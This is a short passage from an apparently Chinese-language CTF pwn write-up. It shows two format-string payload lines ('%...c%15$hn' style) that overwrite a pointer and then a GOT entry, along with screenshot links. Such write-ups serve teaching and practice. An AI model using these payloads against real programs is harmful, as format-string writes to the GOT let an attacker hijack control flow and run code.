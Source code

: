 ```plain
sla('start','%'+str(addr1)+'c%15$hn')
```

[![](assets/1701678450-09f70fe3bafd34904392bb44c64642f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211042-b3305558-8eb8-1.png)  
然后我们去找下面这个偏移，去修改成 got 表

[![](assets/1701678450-00be00720d4e4f1a26d02e8619eeec91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211050-b7a80a18-8eb8-1.png)

```plain
sla('start','%'+str(0x4020)+'c%43$hn')
```

[![](assets/1701678450-8d64e1fcbcd1f05d193fa3e97bd0e21f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211103-bfe41bd6-8eb8-1.png)
